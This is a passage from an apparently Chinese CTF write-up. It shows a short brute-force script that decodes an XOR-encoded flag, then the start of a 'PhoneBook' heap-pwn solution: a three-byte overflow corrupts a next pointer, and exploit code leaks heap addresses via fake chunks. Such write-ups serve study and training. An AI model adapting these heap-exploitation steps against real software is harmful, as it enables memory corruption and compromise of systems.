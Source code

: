 ```python
def crack(A, B):
    for a in range(0,255):
        for b in range(0,255):
            if ((a^(a+b)) == A) and (b^(a+b) == B):
                print(f"{chr(a)}{chr(b)}", end="")

data = [[0xBB, 0xBF], [0xB9, 0xBE], [0xC3, 0xCC], [0xCE, 0xDC], [0x9E, 0x8F], [0x9D, 0x9B], [0xA7, 0x8C], [0xD7, 0x95], [0xB0, 0xAD], [0xBD, 0xB4], [0x88, 0xAF], [0x92, 0xD0], [0xCF, 0xA1], [0xA3, 0x92], [0xB7, 0xB4], [0xC9, 0x9E], [0x94, 0xA7], [0xAE, 0xF0], [0xA1, 0x99], [0xC0, 0xE3], [0xB4, 0xB4], [0xBF, 0xE3]]

for d in data:
    crack(d[0], d[1])
```

## Pwn - PhoneBook

​	收获最多的一集，综合复习/学习了各种堆利用方法。

​	（后有附图）

#### 0x00 Leak Heap Ptr

​	分析程序，保护开满，增删改查堆题。发现 **`phone` 字段存在三字节溢出**，可以修改其后的 `next` 字段以达成任意分配堆地址，得到**任意读任意写**机会。通过构造两个假 chunk（offset：0x10、0x20，id：50、51），以其作为桥梁泄漏堆地址。定义 `person` 结构体助记：

```c
00000000 person          struc ; (sizeof=0x28, mappedto_8)
00000000 id              dq ?
00000008 name            db 16 dup(?)            ; string(C)
00000018 phone           db 8 dup(?)             ; string(C)
00000020 next            dq ?                    ; offset
00000028 person          ends
```

Exp 0：

```python
add(b'\n', b'\n')
add(b'456\n', b'\n')
edit(1, b'\n', b'A'*9) # 连通后方 next_ptr
show()
rec = p.recv()
pos = rec.index(b'A'*9)
chunk2_addr = u64(b'\0' + rec[pos+9: pos+14] + b'\0\0')
chunk1_addr = chunk2_addr - 0x30
chunk3_addr = chunk2_addr + 0x30
fake_chunk0_addr = chunk2_addr + 0x10
fake_chunk1_addr = chunk2_addr + 0x20
print('fake chunk0: ' + hex(fake_chunk0_addr))
print('fake chunk1: ' + hex(fake_chunk1_addr))
print('chunk2: ' + hex(chunk2_addr))
```
